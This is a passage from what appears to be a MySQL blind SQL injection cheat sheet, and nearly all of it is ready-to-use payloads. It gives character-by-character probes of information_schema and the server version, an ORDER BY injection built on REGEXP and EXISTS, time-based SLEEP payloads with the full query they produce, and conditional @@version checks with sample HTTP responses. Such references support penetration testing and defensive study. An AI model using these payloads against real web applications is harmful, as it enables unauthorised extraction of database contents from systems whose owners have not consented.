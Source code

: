 ```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
?id=1 AND ASCII(LOWER(SUBSTR(version(),1,1)))=51
```

### MySQL Blind SQL Injection in ORDER BY clause using a binary query and REGEXP

This query basically orders by one column or the other, depending on whether the EXISTS() returns a 1 or not.
For the EXISTS() function to return a 1, the REGEXP query needs to match up, this means you can bruteforce blind values character by character and leak data from the database without direct output.

```SQL
[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS / CONDITIONS]) THEN [ONE COLUMN TO ORDER BY] ELSE [ANOTHER COLUMN TO ORDER BY] END)); -- -
```

### MySQL Blind SQL Injection binary query using REGEXP.

Payload:

```sql
' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
```

Would work in the query (where the "where" clause is the injection point):

```SQL
SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';
```

In said query, it will check to see if an item exists in the "name" column in the "items" database that starts with an "a". If it will sleep for 3 seconds per item.


### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

